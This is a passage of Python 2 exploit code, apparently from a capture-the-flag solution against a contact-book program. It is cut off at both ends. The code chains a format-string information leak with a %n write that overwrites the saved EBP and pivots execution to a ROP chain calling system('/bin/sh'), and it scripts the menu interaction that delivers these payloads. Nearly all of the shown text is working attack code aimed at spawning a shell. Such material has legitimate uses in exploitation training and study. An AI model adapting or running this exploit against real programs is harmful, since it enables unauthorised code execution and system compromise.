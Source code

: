 ```python
  # junk return address for system
  junk = 0x0BADC0DE

  # ROP chain: [@system (4 bytes)][junk (4 bytes)][@"/bin/sh" (4 bytes)]
  ROP_chain = [system_addr,
         junk,
               binsh_addr]
  # Include FMS infoleak to get address of ROP chain
  desc = "".join([pack('<I', x) for x in ROP_chain]) + "<%11$x>"

  # Create new contact
  h.sendline("1")

  msg = h.recvuntil('Name: ')
  print msg

  h.sendline(name)

  msg = h.recvuntil('Enter Phone No: ')
  print msg

  h.sendline(phone)

  msg = h.recvuntil('Length of description: ')
  print msg

  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg

  h.sendline(desc)

  msg = h.recvuntil('>>> ')
  print msg

  # Display contacts
  h.sendline("4")

  msg = h.recvuntil('>>> ')
  print msg

  return int(re.findall('.*Description:.*?\<(.*?)\>.*\n.*', msg)[0], 16)

def do_exploit(h, ropchain_addr):
  name = "sploit"
  phone = "1"
  desc_len = "900"

  new_ebp = (ropchain_addr - 4)

  part_1 = floor(new_ebp / 2)
  part_2 = part_1 + (new_ebp - (part_1 * 2))

  # Format string exploit: overwrite saved EBP with (ropchain_addr - 4)
  desc_buffer = "%"+str(part_1)+"x%"+str(part_2)+"x%6$n"

  print "[*]Sending exploit..."

  # Create new contact
  h.sendline("1")

  msg = h.recvuntil('Name: ')
```